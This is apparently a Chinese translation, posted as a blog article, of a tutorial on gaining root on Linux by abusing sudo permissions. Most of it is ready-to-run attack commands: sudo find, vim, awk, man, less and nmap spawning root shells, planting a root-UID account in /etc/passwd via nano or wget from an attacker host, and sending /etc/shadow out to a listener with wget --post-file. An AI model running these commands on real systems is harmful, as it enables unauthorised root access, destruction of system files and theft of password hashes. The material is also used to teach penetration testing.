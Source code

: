 ```yaml
---
layout: post
title:  "Abusing SUDO (Linux Privilege Escalation)"
subtitle: "Liunx權限提升-濫用Sudo"
author: Mars Cheng
tags: 
- Penetration Testing
- Security Technique
- Linux System
- Translating Articles
---
```

## Overview

> This is Translating Articles which from <http://touhidshaikh.com/blog/?p=790>, if any problem,  If any mistake or suggestion, please let we konw. Thanks.
> 本篇文章翻譯自 <http://touhidshaikh.com/blog/?p=790>，如有任何問題敬請不吝指教。


> 當某些程式/指令的shell有其限制時，我們通常會使用Sudo來提升權限。本文將展現一些方式藉由Sudo來提升權限。但首先，我們要先了解何謂Sudo，再進行進階的利用。

## Index

1. 什麼是SUDO?
2. Sudoer檔案語法
3. 利用SUDO使用者
    * /usr/bin/find
    * /usr/bin/nano
    * /usr/bin/vim
    * /usr/bin/man
    * /usr/bin/awk
    * /usr/bin/less
    * /usr/bin/nmap ( –interactive and –script method)
    * /bin/more
    * /usr/bin/wget
    * /usr/sbin/apache2

### 1. 什麼是SUDO?
Sudo(Substitute User and Do)允許一般使用者被授權執行需特權資源的程式/行為，換句話說，使用者可以使用自己的身份/密碼在root(或其他使用者)下執行命令，具體內容取決於sudoer設定中授與存取權限的內容，該設定可以在/etc/sudoers中找到。

---
### 2. Sudoer檔案語法

```
root ALL=(ALL) ALL
```
說明1:root可以從所有終端中執行，允許所有(任何)使用者，並執行所有（任何）指令
* 第一部分是使用者，第二部分是使用者可以使用sudo指令的終端，第三部分是使用者可以擔任的使用者身份，最後一部分是使用時可以執行的指令


```
touhid ALL= /sbin/poweroff
```
說明2:使用者可以從任何終端以使用者touhid的密碼執行「關閉」指令


```
touhid ALL = (root) NOPASSWD: /usr/bin/find
```
說明3:使用者touhid可以從任何終端，以root身份執行查找指令且無需密碼

---
### 3. 利用SUDO使用者

要利用sudo使用者，必須先找到允許執行的命令

```
sudo -l
```
上述指令顯示允許當前使用者執行的命令


![](https://i.imgur.com/mBNG39n.png)
上述圖片顯示無需密碼便可以root身份執行的指令


以下針對使用sudo達成權限提升的細節進行說明

* 1.**使用Find指令**
```
sudo find /etc/passwd -exec /bin/sh \;
```
或
```
sudo find /bin -name nano -exec /bin/sh \;
```
* 2.**使用Vim指令**
```
sudo vim -c '!sh'
```
* 3.**使用Nmap指令**

舊方法
```
sudo nmap --interactive
nmap> !sh
sh-4.1#
```
<font color=red>注意：nmap --interactive選項無法使用在叫新版本的nmap中</font>

新方法-->不使用--interactive的方法

```
echo "os.execute('/bin/sh')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
```
* 4.**使用Man指令**
```
sudo man man
```
然後輸入!sh及按下Enter

* 5.**使用Less/More指令**

```
sudo less /etc/hosts
或
sudo more /etc/hosts
```
然後輸入!sh及按下Enter
* 6.**使用awk指令**
```
 sudo awk 'BEGIN {system("/bin/sh")}'
```
* 7.**使用nano指令**

nano是文字編輯器，可以用來修改passwd文件，並在需要切換用戶之後以root權限加入password文件中的使用者。在/etc/passwd中增加此行可將此用戶添加root權限
```java
touhid:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash
```

```
sudo nano  /etc/passwd
```
切換使用者密碼：test
```
su touhid
```
* 8.**使用wget指令**

這種非常酷的方式需要Web服務器下載文件。 這種方式我從未在任何地方看到過。 

**攻擊者端**
1. 將受害端/etc/passwd文件複製到攻擊者端中
2. 修改文件並將passwd文件增加以下資訊，並保存
```
touhid:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash 
``` 
3. 將passwd托管至Web伺服器主機

**受害端**
```
sudo wget http://192.168.56.1:8080/passwd -O /etc/passwd
```
切換使用者密碼：test
```
su touhid
```
<font color=red>注意：如果想要從Web伺服器取得root的ssh金鑰或shadow檔案等</font>

```
sudo wget --post-file=/etc/shadow 192.168.56.1:8080
```
啟用listener於攻擊者端: nc -lvp 8080


* 9.**使用apache指令**

無法獲得shell與無法編輯系統檔案，但能夠檢視系統檔案
```
sudo apache2 -f /etc/shadow
```

輸出如下：
```
Syntax error on line 1 of /etc/shadow:
Invalid command 'root:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration
```
無法獲得shell，但可以嘗試破解Hash。

### Reference

[1] <http://touhidshaikh.com/blog/?p=790>

